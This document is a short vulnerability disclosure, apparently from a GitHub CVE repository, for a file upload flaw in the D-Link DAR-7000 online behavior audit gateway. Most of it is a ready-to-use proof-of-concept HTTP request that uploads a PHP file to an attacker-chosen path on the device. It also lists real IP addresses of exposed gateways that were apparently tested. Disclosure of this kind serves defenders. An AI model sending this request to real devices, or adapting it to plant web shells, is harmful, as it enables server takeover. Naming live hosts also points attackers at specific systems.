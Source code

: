 

The D-LINK DAR-7000 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.


official： http://www.dlink.com.cn/

version:DAR-7000  DAR V31R02B1413C

Vulnerability Path ：/Tool/uploadfile.php

Ip：https://60.22.74.195:8443/

poc:
```
POST /Tool/uploadfile.php? HTTP/1.1
Host: 113.140.35.82:8443
Cookie: PHPSESSID=25c62fc086a2f7777b8e0dd04d2a75d1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------886123294864872782496578758
Content-Length: 391
Origin: https://113.140.35.82:8443
Referer: https://113.140.35.82:8443/Tool/uploadfile.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------886123294864872782496578758
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------886123294864872782496578758
Content-Disposition: form-data; name="txt_path"

/usr/hddocs/nsg/home/2.php
-----------------------------886123294864872782496578758—
```
<img width="726" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/44ebeb40-f974-4baa-90bd-b569cf12ee9b">

https://60.22.74.195:8443/home/2.php 

<img width="727" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/f4e81380-cfbf-4f82-a8d2-e84d5c4285f8">




